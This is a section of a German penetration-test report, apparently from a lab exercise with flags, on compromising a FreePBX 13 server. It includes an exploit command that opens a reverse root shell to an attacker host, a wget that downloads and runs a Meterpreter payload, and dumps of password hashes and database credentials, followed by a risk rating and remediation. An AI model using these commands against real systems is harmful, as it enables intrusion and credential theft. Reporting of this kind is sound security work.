Analysen von \texttt{spoon.dmz.mb-reps.cool.datcom.prv} haben gezeigt, dass ein Webserver zur Administration der FreePBX-Anwendung auf Port 80 bereitgestellt wird. Abbildung \ref{fig:vuln4_freepbx_website} zeigt die Administrations-Oberfläche der FreePBX-Webanwendung, welche über den in Kapitel \ref{session-management-myron} beschriebenen SOCKS-Proxy erreicht werden kann. 

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln4_freepbx/freepbx_website}
    \caption{Administrations-Oberfläche von FreePBX}
    \label{fig:vuln4_freepbx_website}
\end{figure}


Im Footer des Webauftritts ist die verwendete FreePBX-Version 13.0.192.16 angegeben. Recherchen mit \texttt{searchsploit FreePBX 13} (siehe Textauszug \ref{lst:vuln4_freepbx_searchsploit}) zeigen potentielle Exploits für verschiedene FreePBX 13 Versionen.


\lstset{language=bash,caption={Auflistung der gefundenen Exploits für FreePBX 13 Versionen}, label=lst:vuln4_freepbx_searchsploit}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_33_11]
|-$ searchsploit FreePBX 13
----------------------------------------------- ------------------------
 Exploit Title                                 |  Path
----------------------------------------------- ------------------------
FreePBX 13 - Remote Command Execution / Privil | php/webapps/40614.py
FreePBX 13.0.35 - Remote Command Execution     | php/webapps/40296.txt
FreePBX 13.0.35 - SQL Injection                | php/webapps/40312.txt
FreePBX 13.0.x < 13.0.154 - Remote Command Exe | php/webapps/40345.txt
FreePBX 13/14 - Remote Command Execution / Pri | linux/remote/40232.py
FreePBX < 13.0.188 - Remote Command Execution  | php/remote/40434.rb
----------------------------------------------- ------------------------
Shellcodes: No Results
\end{lstlisting} 

Die Analyse und Verifikation der öffentlich bekannten Exploits hat ergeben, dass das Python-Modul \texttt{40614.py} erfolgreich verwendet werden konnte, um eine Reverse-Shell mit Root-Berechtigungen zu erhalten.

Textauszug \ref{lst:exploit_freepbx} zeigt, wie über den SSH-SOCKS-Proxy-Tunnel und \texttt{proxychains} der Python-Exploit ausgeführt und eine Reverse-Shell von der FreePBX-Maschine zum Angreifer-Host auf Port 443 erhalten wird. Nach erfolgreicher Durchführung erhält der Angreifer eine Root-Shell und hat somit das System vollständig unter Kontrolle.


\lstset{language=bash,caption={Kompromittieren der FreePBX-Anwendung mittels öffentlich bekannten Python-Exploit}, label=lst:exploit_freepbx}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_33_11]
|-$ sudo proxychains python3 /usr/share/exploitdb/exploits/php/webapps/40614.py -u http://spoon.dmz.mb-reps.cool.datcom.prv -l 172.16.76.12 -p 443 -s R
[sudo] password for gu4c4m0l3: 
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15

Starting Session
[proxychains] Strict chain  ...  127.0.0.1:9000  ...  spoon.dmz.mb-reps.cool.datcom.prv:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9000  ...  spoon.dmz.mb-reps.cool.datcom.prv:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9000  ...  spoon.dmz.mb-reps.cool.datcom.prv:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9000  ...  spoon.dmz.mb-reps.cool.datcom.prv:80  ...  OK

Scraping the site for a cookie

Posting evil php
[proxychains] Strict chain  ...  127.0.0.1:9000  ...  spoon.dmz.mb-reps.cool.datcom.prv:80  ...  OK

Starting new thread for getting evil php

Binding to socket 443 Please wait... May take 30 secs to get call back.

[proxychains] DLL init: proxychains-ng 4.15
[proxychains] DLL init: proxychains-ng 4.15
listening on [any] 443 ...
[proxychains] Strict chain  ...  127.0.0.1:9000  ...  spoon.dmz.mb-reps.cool.datcom.prv:80  ...  OK
connect to [172.16.76.12] from (UNKNOWN) [172.16.30.89] 41174
bash: no job control in this shell
 _____              ____  ______  __
|  ___| __ ___  ___|  _ \| __ ) \/ /
| |_ | '__/ _ \/ _ \ |_) |  _ \\  / 
|  _|| | |  __/  __/  __/| |_) /  \ 
|_|  |_|  \___|\___|_|   |____/_/\_\     

NOTICE! You have 6 notifications! Please log into the UI to see them!

Current Network Configuration
+-----------+-------------------+---------------------------+
| Interface | MAC Address       | IP Addresses              |
+-----------+-------------------+---------------------------+
| eth0      | 9A:4E:DC:B1:9F:8D | 172.16.33.11              |
|           |                   | fe80::984e:dcff:feb1:9f8d |
+-----------+-------------------+---------------------------+

Please note most tasks should be handled through the GUI.
You can access the GUI by typing one of the above IPs in to your web browser.
For support please visit: 
    http://www.freepbx.org/support-and-professional-services

***********************************************************************
* This machine is not activated.  Activating your system ensures that *
* your machine is eligible for support and that it has the ability to *
* install Commercial Modules.                                         *
*                                                                     *
* If you already have a Deployment ID for this machine, simply run:   *
*                                                                     *
*    fwconsole sysadmin activate deploymentid                         *
*                                                                     *
* to assign that Deployment ID to this system. If this system is new, *
* please go to Activation (which is on the System Admin page in the   *
* Web UI) and create a new Deployment there.                          *
***********************************************************************

                               === Flag 3 ===

Oh well, it's just you again. Was hoping for an intelligent lifeform. Guess, 
I'll have to wait a few million years more for that. Did I ever tell you about
the time when I was flying towards a sun in the Heart of Gold? This would have
been almost as good as dying. A rescue was highly improbable. Almost as
improbable as you succeeding any further than this. Or as an macroscopic
object tunneling through a solid mass. Or as an wormhole suddenly opening and
transporting me to the other side of the universe. This almost never hap...


                ________________________________         
               /                                "-_          
              /      .  |  .                       \          
             /      : \ | / :                       \         
            /        '-___-'                         \      
           /_________________________________________ \      
                _______| |________________________--""-L 
               /       F J                              \ 
              /       F   J                              L
             /      :'     ':                            F
            /        '-___-'                            / 
           /_________________________________________--"  
 


                             === mbr_wormhole ===
[root@spoon html]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@spoon html]#
\end{lstlisting} 

Über den aus Schwachstelle 1 bereitgestellten Python-Webserver (Port 80) sowie der bereits laufende Meterpreter-Handler (Port 22) auf der Kali-VM kann die Meterpreter-Payload auf dem \texttt{spoon}-Host heruntergeladen und ausgeführt werden (s. Textauszug \ref{lst:vuln4_meterpreter_rshell}).


\lstset{language=bash,caption={Herunterladen und Starten der Meterpreter Payload auf dem \texttt{spoon}-Host.}, label=lst:vuln4_meterpreter_rshell}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
[root@spoon html]# wget http://172.16.76.12/rshell -O /tmp/rshell
wget http://172.16.76.12/rshell -O /tmp/rshell
--2022-02-28 20:35:01--  http://172.16.76.12/rshell
Connecting to 172.16.76.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1042160 (1018K) [application/octet-stream]
Saving to: `/tmp/rshell'

     0K .......... .......... .......... .......... ..........  4%  639K 2s
    50K .......... .......... .......... .......... ..........  9% 1.59M 1s
   100K .......... .......... .......... .......... .......... 14% 2.10M 1s
   150K .......... .......... .......... .......... .......... 19% 2.82M 1s
   200K .......... .......... .......... .......... .......... 24% 3.90M 0s
   250K .......... .......... .......... .......... .......... 29% 1.78M 0s
   300K .......... .......... .......... .......... .......... 34%  917K 0s
   350K .......... .......... .......... .......... .......... 39% 17.5M 0s
   400K .......... .......... .......... .......... .......... 44%  441M 0s
   450K .......... .......... .......... .......... .......... 49%  621M 0s
   500K .......... .......... .......... .......... .......... 54% 1.46M 0s
   550K .......... .......... .......... .......... .......... 58%  545K 0s
   600K .......... .......... .......... .......... .......... 63%  286M 0s
   650K .......... .......... .......... .......... .......... 68%  555M 0s
   700K .......... .......... .......... .......... .......... 73%  560M 0s
   750K .......... .......... .......... .......... .......... 78% 2.23M 0s
   800K .......... .......... .......... .......... .......... 83% 12.3M 0s
   850K .......... .......... .......... .......... .......... 88% 11.6M 0s
   900K .......... .......... .......... .......... .......... 93% 1.76M 0s
   950K .......... .......... .......... .......... .......... 98%  310K 0s
  1000K .......... .......                                    100%  256M=0.6s

2022-02-28 20:35:01 (1.68 MB/s) - `/tmp/rshell' saved [1042160/1042160]

[root@spoon html]# chmod +x /tmp/rshell
chmod +x /tmp/rshell
[root@spoon html]# /tmp/rshell &
/tmp/rshell &
[1] 7923
[root@spoon html]# 

\end{lstlisting} 

Abbildung \ref{fig:spoon_meterpreter_session} zeigt, dass eine erfolgreiche Meterpreter-Verbindung aufgebaut werden konnte und dass es sich bei dem \texttt{spoon}-Host um ein Red Hat 6.6 System mit dem Linux-Kernel 2.6.32-642.6.2.el6.x86\_64 handelt.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln4_freepbx/meterpreter_session_spoon}
    \caption{Root-Meterpreter-Session zum Host \texttt{spoon}}
    \label{fig:spoon_meterpreter_session}
\end{figure}

Die Ausgabe des \texttt{sessions}-Befehls in Metasploit erhärtet den Verdacht, dass Verbindungen zur öffentlichen IP-Adresse \texttt{172.16.76.89} auf die in der DMZ befindlichen IP-Adresse \texttt{172.16.33.11} mittels NAT übersetzt wird. Anschließend konnte erneut mit dem Metasploit-Modul \texttt{linux/gather/hashdump} unter Angabe der Metasploit-Session-ID die Passwort-Hashes des \texttt{spoon}-Hosts extrahiert werden, wie in Textausgabe \ref{lst:vuln4_extract_hashes} dargestellt wird.

\lstset{language=bash,caption={Extrahieren aller Benutzernamen inkl. vorhandener Hashwerte des \texttt{spoon}-Hosts}, label=lst:vuln4_extract_hashes}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
gu4c4m0l3@msf-kali-t470 [S:2, J:1] > use post/linux/gather/hashdump
gu4c4m0l3@msf-kali-t470 [S:2, J:1] post(linux/gather/hashdump) > set SESSION 2
SESSION => 2
gu4c4m0l3@msf-kali-t470 [S:2, J:1] post(linux/gather/hashdump) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api
[+] passwd saved in: /root/.msf4/loot/20220301122054_default_172.16.30.89_linux.passwd_349138.txt
[+] Shadow saved in: /root/.msf4/loot/20220301122054_default_172.16.30.89_linux.shadow_471894.txt
[+] opasswd saved in: /root/.msf4/loot/20220301122054_default_172.16.30.89_linux.passwd.his_643262.txt
[+] root:$1$VcTPlmMU$9EoWhcgLwR.mbFjczTE.d0:0:0:root:/root:/bin/bash
[+] dbus:!!:81:81:System message bus:/:/sbin/nologin
[+] vcsa:!!:69:69:virtual console memory owner:/dev:/sbin/nologin
[+] radiusd:!!:95:95:radiusd user:/home/radiusd:/sbin/nologin
[+] asterisk:!!:499:498::/home/asterisk:/bin/bash
[+] mysql:!!:27:27:MySQL Server:/var/lib/mysql:/bin/bash
[+] haldaemon:!!:68:68:HAL daemon:/:/sbin/nologin
[+] openvpn:!!:498:497:OpenVPN:/etc/openvpn:/sbin/nologin
[+] ntp:!!:38:38::/etc/ntp:/sbin/nologin
[+] mongodb:!!:184:496:MongoDB Database Server:/var/lib/mongodb:/sbin/nologin
[+] saslauth:!!:497:76:Saslauthd user:/var/empty/saslauth:/sbin/nologin
[+] postfix:!!:89:89::/var/spool/postfix:/sbin/nologin
[+] apache:!!:48:48:Apache:/var/www:/sbin/nologin
[+] sshd:!!:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
[+] avahi:!!:70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
[+] tcpdump:!!:72:72::/:/sbin/nologin
[+] Unshadowed Password File: /root/.msf4/loot/20220301122055_default_172.16.30.89_linux.hashes_135304.txt
[*] Post module execution completed

\end{lstlisting} 

Nach kurzer Recherche unter \url{https://hashcat.net/wiki/doku.php?id=example_hashes} und mit dem Befehl \texttt{hashid -m \$1\$VcTPlmMU\$9EoWhcgLwR.mbFjczTE.d0} konnte herausgefunden werden, dass es sich bei dem Passwort-Hash \texttt{\$1\$VcTPlmMU\$9EoWhcgLwR.mbFjczTE.d0} des \texttt{root}-Benutzers um einen \texttt{md5crypt}-Passworthash mit der hashcat Modus-ID 500 handelt. Das Root-Passwort von \texttt{spoon} konnte mit üblichen Wörterbuchangriffen nicht gebrochen werden.

Darüber hinaus konnte unter \texttt{/etc/freepbx.conf} die Datenbank-Zugangsdaten für die FreePBX-Applikation mit dem Benutzernamen \texttt{freepbxuser} und dem Passwort \texttt{74523dbdd0714f70f1125a954c0c4d5e} gefunden werden. Der Inhalt der Datei wird in Textauszug \ref{lst:freepbx_db_config} dargestellt.

\lstset{language=bash,caption={FreePBX-Datenbank Konfigurationsdatei}, label=lst:freepbx_db_config}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
[root@spoon ~]# cat /etc/freepbx.conf 
<?php
$amp_conf['AMPDBUSER'] = 'freepbxuser';
$amp_conf['AMPDBPASS'] = '74523dbdd0714f70f1125a954c0c4d5e';
$amp_conf['AMPDBHOST'] = 'localhost';
$amp_conf['AMPDBNAME'] = 'asterisk';
$amp_conf['AMPDBENGINE'] = 'mysql';
$amp_conf['datasource'] = ''; //for sqlite3

require_once('/var/www/html/admin/bootstrap.php');
?>
\end{lstlisting} 
Weitere Datenbankbenutzer konnten innerhalb der MySQL-Datenbank \texttt{mysql} nicht gefunden werden, wie Textauszug \ref{lst:vuln4_dbusers} bestätigt. Das Passwort in der MySQL-Datenbank in der Version 5.1.73 wird dabei im SHA1-Format ohne Salt abgespeichert.

\lstset{language=bash,caption={Darstellung der MySQL-Benutzer inkl. SHA1-Passworthashes}, label=lst:vuln4_dbusers}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
[root@spoon ~]# mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 3518
Server version: 5.1.73 Source distribution

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| asterisk           |
| asteriskcdrdb      |
| mysql              |
| test               |
+--------------------+
5 rows in set (0.00 sec)

mysql> use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select User, Password from user;
+-------------+-------------------------------------------+
| User        | Password                                  |
+-------------+-------------------------------------------+
| root        |                                           |
| root        |                                           |
| root        |                                           |
|             |                                           |
|             |                                           |
| freepbxuser | *E75EF4CDE1EBD66084BBBB412D4E0B346945E755 |
+-------------+-------------------------------------------+
6 rows in set (0.00 sec)
\end{lstlisting} 

Innerhalb der \texttt{asterisk}-Datenbank in der Tabelle \texttt{ampusers} konnten zwei SHA1-Passworthashes für die Benutzer \texttt{root} und \texttt{admin} ausfindig gemacht werden. Textauszug \ref{lst:vuln4_ampuserhashes} zeigt die dazugehörigen Befehle.

\lstset{language=bash,caption={Benutzernamen und SHA1-Passworthashes der \texttt{ampusers}-Tabelle innerhalb der \texttt{asterisk}-Datenbank}, label=lst:vuln4_ampuserhashes}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
mysql> use asterisk;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select username, password_sha1 from ampusers;
+----------+------------------------------------------+
| username | password_sha1                            |
+----------+------------------------------------------+
| root     | 7a82066dbc1679243c681266fae585a8e383601e |
| admin    | 4cae5d0f49bbdc795a26b1a6354a7a76c6106a67 |
+----------+------------------------------------------+
2 rows in set (0.00 sec)
\end{lstlisting} 

Die SHA1-Hashes konnten \textbf{nicht} mit üblichen Wörterbuchangriffen inkl. regelbasierter Passwortmutationen gebrochen werden.

\subsection{Risikobewertung}
Da es sich bei der initialen Ausnutzung der FreePBX-Schwachstelle um einen langjährigen und öffentlichen bekannten Exploit-Code handelt, der in der Exploit-DB Datenbank gelistet ist und automatisch eine Reverse-Shell zum Angreifersystem mit Root-Berechtigungen aufbaut, ist im Falle einer Kompromittierung die Schadenshöhe - auch in Anbetracht der auf der FreePBX  potentiell befindlichen sensiblen Kommunikationsdaten - mit HOCH einzustufen. Die Schwachstelle kann darüber hinaus von einem beliebigen Innentäter oder einem externen Angreifer, sofern über Schwachstelle 1 der \texttt{myron}-Host kompromittiert wurde, durchgeführt werden. Die Eintrittswahrscheinlichkeit ist daher mit MITTEL zu bewerten.

Das Gesamtrisiko wurde daher mit \textcolor{red}{HOCH} bewertet.

\subsection{Empfohlene Gegenmaßnahmen}
Es wird empfohlen die FreePBX-Applikation umgehend zu aktualisieren, um die Remote-Code-Execution-Schwachstelle, aber auch die Local Privilege Escalation Schwachstelle zu beheben.

\subsection{Security-in-Depth Maßnahmen}
 Des Weiteren sollten die MySQL-Installation aktualisiert werden, da beim Passwort-Hashing-Algorithmus keine Salts verwendet werden und SHA1 kein empfohlener Hashing-Algorithmus zum Speichern von Passwörtern ist. Außerdem ist für den eingesetzten Linux-Kernel des \texttt{spoon}-Hosts eine weitere Local-Priviledge-Escalation-Schwachstelle bekannt, für die ein öffentlicher Exploit-Code für Ubuntu und Fedora-Betriebssysteme vorhanden ist. Das dazugehörige Metasploit-Modul \texttt{exploit/linux/local/rds\_rds\_page\_copy\_user\_priv\_esc} schlägt bei der Exploit-Code-Ausführung fehl, meldet aber, dass der Kernel anfällig gegenüber der Schwachstelle \texttt{CVE-2010-3904} sei. Auch Red Hat meldete offiziell die Anfälligkeit für die Kernel-Version 6: \url{https://access.redhat.com/security/cve/CVE-2010-3904}. Abbildung \ref{fig:vuln4_exploit_failed} zeigt die Ausführung des Metasploit-Modules mit der Verwundbarkeitsmeldung.
 
 \begin{figure}[htbp]
    \centering
    
\includegraphics[width=\textwidth]{./img/vuln4_freepbx/vulnerable_kernel}
    \caption{Ausführung des Metasploit-Modules \texttt{exploit/linux/local/rds\_rds\_page\_copy\_user\_priv\_esc}}
    \label{fig:vuln4_exploit_failed}
\end{figure}

Laut einer Analyse (s. \url{https://github.com/redhatkaty/-cve-2010-3904-report/blob/master/cve-2010-3904-Xinqi-Li/readingcoursewriteupXinqiLi.pdf}) der  \texttt{CVE-2010-3904}-Schwachstelle, müssten die Offsets der einzelnen Betriebssystem-Module zur Funktionsfähigkeit für jedes Betriebssystem angepasst werden. Aufgrund dieser Tatsache wird empfohlen, das Betriebssystem auf die neueste Version zu aktualisieren.

\subsection{Hinterlassene Spuren und Spurenbeseitigung}
Aufgrund der Ausführung des FreePBX-Exploits wurden im Ordner \texttt{/var/www/html} zwei Dateien namens \texttt{0x4148.php.call} und \texttt{hackerWAShere.py} angelegt.
Außerdem wurde die Meterpeter-Payload unter \texttt{/tmp/rshell} kopiert. Darüber hinaus wurde aufgrund der Ausführung des Metasploit-Modules \texttt{exploit/linux/local/rds\_rds\_page\_copy\_user\_priv\_esc} der Exploit unter \texttt{/tmp/.clewNso} abgespeichert. Nach der Durchführung des Penetration-Tests wurden die vier Dateien über den SSH-Zugang mittels dem Befehl \texttt{rm /tmp/rshell /tmp/.clewNso /var/www/html/0x4148.php.call /var/www/html/hackerWAShere.py} vom \texttt{spoon}-System entfernt.